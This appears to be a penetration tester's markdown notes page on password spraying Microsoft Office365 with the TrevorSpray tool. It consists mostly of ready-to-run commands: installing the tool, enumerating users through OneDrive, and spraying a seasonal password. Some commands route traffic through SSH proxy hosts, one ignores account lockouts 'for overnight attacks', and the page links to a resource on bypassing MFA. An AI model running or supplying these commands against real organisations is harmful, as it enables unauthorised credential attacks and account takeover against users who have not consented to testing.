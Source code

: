 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Office365

### Password Spraying Office365

#### TrevorSpray

When using TrevorSpray, consider important factors such as the delay. In my experience, setting the delay to around 100 seconds across multiple hosts has not resulted in a delay ever.&#x20;

```bash
# Installation
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray

# Perform recon against a domain
trevorspray --recon $domain

# Enumerate users via OneDrive
trevorspray --recon $domain -u $emails --threads 3

# Spray with a 10 second delay between requests
trevorspray -u $validemails -p 'Winter2022!' --delay 10

# Spray with two robins and the current system
trevorspray -u $validemails -p 'Winter2022!' --ssh root@$robin root@$robin

# Spray while ignoring account lockout (good for overnight attacks)
trevorspray -u $validemails -p $passwords --ignore-lockouts
```

### Identifying Emails without OSINT

{% embed url="https://github.com/blacklanternsecurity/TREVORspray#example-find-valid-usernames-without-osint-d" %}

### References

{% embed url="https://www.sprocketsecurity.com/resources/how-to-bypass-mfa-all-day" %}
